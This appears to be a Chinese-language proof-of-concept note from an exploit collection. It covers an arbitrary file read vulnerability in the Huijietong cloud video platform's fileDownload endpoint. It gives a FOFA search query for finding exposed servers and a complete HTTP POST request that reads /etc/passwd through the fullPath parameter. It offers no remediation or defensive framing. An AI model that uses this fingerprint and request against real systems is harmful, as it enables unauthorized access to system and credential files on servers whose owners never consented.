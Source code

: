 ## 会捷通云视讯平台fileDownload存在任意文件读取漏洞

## fofa

```
body="/him/api/rest/v1.0/node/role"
```

## poc

```
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: x.x.x.x
Content-Length: 20
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://x.x.x.x
Referer: http://x.x.x.x
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
 
fullPath=/etc/passwd
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407081228835.png)